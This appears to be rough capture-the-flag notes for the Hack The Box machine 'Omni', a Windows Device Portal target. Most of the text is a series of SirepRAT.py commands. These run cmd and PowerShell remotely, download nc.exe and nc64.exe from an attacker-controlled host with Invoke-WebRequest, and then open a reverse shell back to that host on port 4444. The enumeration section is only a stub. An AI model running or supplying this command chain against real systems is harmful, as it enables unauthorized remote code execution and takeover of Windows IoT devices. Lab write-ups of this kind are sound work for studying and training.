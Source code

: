 # Omni - Unknown - 10.10.10.204

# Enumeration:

nmap scan

# Further Enumeration:

Going to the site gives a login panel, which asks for a username and password with the following prompt:

```
http://10.10.10.204:8080 is requesting your username and password. The site says: "Windows Device Portal"
```

This 'Windows Device Portal' seems interesting.


python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "c:\windows\system32\cmd.exe" --args "/c curl.exe" --v

python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "c:\windows\system32\cmd.exe" --args "/c powershell Invoke-Webrequest -Outfile /tools/nc/nc.exe -Uri http://10.10.15.255:80/nc.exe" --v


python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "c:\windows\system32\cmd.exe" --args "/c powershell Invoke-Webrequest -Outfile c:\windows\system32\nc.exe -Uri http://10.10.15.255:80/nc.exe" --v

python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "c:\windows\system32\cmd.exe" --args "/c powershell Invoke-Webrequest -Outfile c:\windows\system32\nc64.exe -Uri http://10.10.15.255:80/nc64.exe" --v



python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "c:\windows\system32\cmd.exe" --args "/c powershell Invoke-Webrequest -Uri http://10.10.15.255:80 -OutFile c:\windows\system32\nc64.exe"

python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd “C:\Windows\System32\cmd.exe” --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\nc64.exe -Uri http://10.10.15.255:80/nc64.exe" --v


python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd “C:\Windows\System32\cmd.exe” --args "/c C:\\Windows\\System32\\nc64.exe 10.10.15.255 4444 -e powershell.exe" --v